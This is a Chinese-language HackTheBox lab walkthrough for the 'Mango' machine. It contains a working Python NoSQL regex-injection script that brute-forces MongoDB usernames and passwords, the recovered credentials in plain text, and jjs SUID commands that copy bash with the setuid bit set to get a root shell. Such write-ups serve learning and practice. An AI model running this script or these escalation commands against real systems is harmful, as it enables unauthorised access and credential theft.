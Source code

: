 ```yaml
---
layout: post
title:  "HackTheBox >_ Mango_162"
description: walkthrough
category: HackTheBox
---
```

# Mango_162

![image-20200923190340508]({{ site.url }}/assets/Mango_162.assets/image-20200923190340508.png)

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

80端口403没有权限

![image-20200923190602543]({{ site.url }}/assets/Mango_162.assets/image-20200923190602543.png)

443端口，将扫描得到的域名`staging-order.mango.htb`加入host

一般nmap扫描得到的`ssl-cert:`就是ssl证书内的内容，而其中的`commonName`就是我们在处理https时应该加入host用来解析的ip对应的域名，这个域名是与浏览器打开证书页的内容是一致的

![image-20200923191317722]({{ site.url }}/assets/Mango_162.assets/image-20200923191317722.png)





加入host后我们在443端口得到一个登陆页面

![image-20200923191407171]({{ site.url }}/assets/Mango_162.assets/image-20200923191407171.png)

抓包后也没发现什么有用的信息

![image-20200923191455415]({{ site.url }}/assets/Mango_162.assets/image-20200923191455415.png)

在经过很久的搜索和论坛上的一些讨论中得到，盒子的名字mango是指mangoDB，

所以可以参考：

https://book.hacktricks.xyz/pentesting-web/nosql-injection

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

需要进行一次nosql注入

使用以下脚本

```python
import requests
import string

url = "http://staging-order.mango.htb/"
headers = {"Host": "staging-order.mango.htb"}
cookies = {"PHPSESSID": "h6oenk3400qs49sb6fb1fl0v5d"}

guess_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]

def get_password(username):
     print("Doing "+username)
     params = {"username":username, "password[$regex]":"", "login": "login"}
     password = "^"
     while True:
         for x in guess_chars:
             params["password[$regex]"] = password + x + ".*"
             pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
             if int(pr.status_code) == 302:
                 password += x
                 break
         if x == guess_chars[-1]:
             print("Found password "+password[1:].replace("\\", "")+" for username "+username)
             return password[1:].replace("\\", "")

def get_usernames():
     usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
     for x in guess_chars:
         username = "^" + x
         params["username[$regex]"] = username + ".*"
         pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
         if int(pr.status_code) == 302:
             print("Found username starting with "+x)
             while True:
                 for y in guess_chars:
                     params["username[$regex]"] = username + y + ".*"
                     if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                         username += y
                         print(username)
                         break
                 if y == guess_chars[-1]:
                     print("Found username: "+username[1:])
                     usernames.append(username[1:])
                     break
     return usernames

for u in get_usernames():
     get_password(u)
```

或者另外一个脚本 https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration

都很好用

得到两组凭证

```bash
mango:h3mXK8RhU~f{]f5H

admin:t9KcS3>!0B#2
```

使用mango凭证登陆ssh没发现什么，sudo -l不可用，进行了一些其他枚举也没发现线索

![image-20200923192938657]({{ site.url }}/assets/Mango_162.assets/image-20200923192938657.png)

su到admin，sudo -l同样不能使用，但是得到了user

![image-20200923193743410]({{ site.url }}/assets/Mango_162.assets/image-20200923193743410.png)

在kali端准备linEnum，部署简单web服务，传输linEnum到靶机进行进一步枚举为提权作准备。

![image-20200923194653976]({{ site.url }}/assets/Mango_162.assets/image-20200923194653976.png)

枚举后发现suid程序

![image-20200923195239736]({{ site.url }}/assets/Mango_162.assets/image-20200923195239736.png)

```bash
[-] SGID files:                                                                                                                                       
.........
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

Gtfobin

https://gtfobins.github.io/gtfobins/jjs/



```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('cp /bin/bash /tmp/bash').waitFor()" | jjs
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod +s /tmp/bash').waitFor()" | jjs
/tmp/bash -p

```

通过java执行命令，将bash拷贝到临时文件夹，并增加运行权限，然后执行，得到root shell

![image-20200923195658374]({{ site.url }}/assets/Mango_162.assets/image-20200923195658374.png)

![image-20200923195717927]({{ site.url }}/assets/Mango_162.assets/image-20200923195717927.png)